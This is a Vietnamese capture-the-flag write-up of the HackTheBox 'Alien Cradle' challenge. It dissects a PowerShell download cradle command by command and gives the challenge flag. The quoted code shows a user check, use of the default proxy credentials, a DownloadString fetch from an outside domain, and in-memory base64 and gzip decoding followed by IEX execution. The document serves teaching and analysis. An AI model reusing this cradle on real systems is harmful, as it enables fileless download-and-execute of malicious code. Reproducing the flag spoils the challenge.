

# Challenge Alien Cradle

## 1. Đầu vào

Đầu vào là 1 file `cradle.ps1` và khi thử chạy lệnh:

```powershell
cat cradle.ps1
```




---

## 2. Flag

```text
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```

---

## 3. Phân tích tổng quan

Cách thức tấn công của attacker là cố gắng lợi dụng chính các tính năng hợp pháp của PowerShell và .NET để tải payload về và thực thi payload ngay trong bộ nhớ.

---

## 4. Phân tích từng command

### Command 1

```powershell
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit}
```

**Mục đích chính của đoạn lệnh** là verify xem tài khoản Windows có đúng là `secret_HQ\Arth`.

- Bằng cách gọi class `WindowsIdentity` và `GetCurrent().Name` để lấy tên của user hiện tại.
- Nếu đúng, script sẽ chạy tiếp các command còn lại.
- Nếu không, script sẽ dừng và không thực hiện tiếp bằng `exit`.

---

### Command 2

```powershell
$w = New-Object net.webclient
```

Command này thực hiện tạo 1 object `net.webclient` để thực hiện các tác vụ liên quan đến web/mạng, sau đó lưu nó vào biến `$w`.

---

### Command 3

```powershell
$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials
```

#### Giải thích kiến thức ngoài lề

- **Proxy**: máy chủ trung gian đứng giữa máy user và nơi user muốn truy cập tới.  
  Thường được dùng để kiểm soát hoạt động truy cập của user qua mạng cũng như để ghi log của user khi user truy cập trang web nào.
- **Credentials** bao gồm username, password, token để xác thực danh tính.

Lệnh này lấy credentials mạng mặc định của user Windows hiện tại và gán cho thuộc tính `Proxy.Credentials` của `WebClient` `$w`, để `$w` có thể xác thực khi đi qua proxy.

Command này cố gắng sử dụng danh tính của người dùng để cố gắng vượt qua proxy, tránh trường hợp bị lỗi khi chưa đăng nhập proxy.

---

### Command 4

```powershell
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64')
```

Command sử dụng method `DownloadString` của `WebClient` để download response là 1 chuỗi Base64 mà khi decode ra sẽ thành data của file gzip, rồi lưu vào biến `$d`.

---

### Command 5

```powershell
$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d))
```

#### Giải thích kiến thức ngoài lề

- `IO`: 1 nhóm class để đọc, ghi, stream, file và dữ liệu.
- `MemoryStream`: class cụ thể liên quan đến luồng dữ liệu trong RAM.

Command này tạo 1 object mới để chứa luồng dữ liệu là các bytes được lưu trong RAM, được convert khi decode Base64 từ biến `$d` lưu trước đó.

---

### Command 6

```powershell
$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'
```

Command này đơn giản chỉ là tạo 1 biến gắn flag vào.

---

### Command 7

```powershell
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

Trong đó:

#### Phần 1

```powershell
New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress)
```

Là object được tạo để giải nén gzip dữ liệu được lưu trong `$s`.

#### Phần 2

```powershell
New-Object IO.StreamReader(...)
```

Dùng để bọc `GzipStream` trong `StreamReader` để đọc dữ liệu sau giải nén như text, rồi đọc bằng `ReadToEnd()`.

#### Phần 3

```powershell
IEX
```

`IEX` (`Invoke-Expression`) cuối cùng sẽ lấy chuỗi text như lệnh PowerShell rồi thực thi.

---

## 5. Flow hoạt động

```text
cradle.ps1
  |
  v
Kiểm tra user Windows hiện tại
  |
  +-- nếu user != secret_HQ\Arth
  |      |
  |      +--> thoát
  |
  +-- nếu user == secret_HQ\Arth
         |
         v
Tạo WebClient
($w = New-Object net.webclient)
         |
         v
Dùng credentials mạng hiện tại cho proxy
($w.Proxy.Credentials = [Net.CredentialCache]::DefaultNetworkCredentials)
         |
         v
Tải payload dạng text từ URL
($d = $w.DownloadString(...))
         |
         v
Giải mã Base64 từ $d
([Convert]::FromBase64String($d))
         |
         v
Đưa dữ liệu bytes vào RAM
($s = New-Object IO.MemoryStream(...))
         |
         v
Ghép chuỗi flag bị ẩn
($f = 'H' + 'T' + 'B' + ...)
         |
         v
Giải nén gzip từ $s
(New-Object IO.Compression.GzipStream(...Decompress))
         |
         v
Đọc toàn bộ nội dung đã giải nén thành text
(...).ReadToEnd()
         |
         v
Thực thi text như mã PowerShell
(IEX ...)
```

---

## 6. Kết luận ngắn

Bài này cho thấy attacker dùng kỹ thuật có thể tận dụng các thành phần hợp pháp có sẵn trong PowerShell và .NET để:

- tải dữ liệu từ xa,
- giải mã,
- giải nén,
- và thực thi trực tiếp trong bộ nhớ.


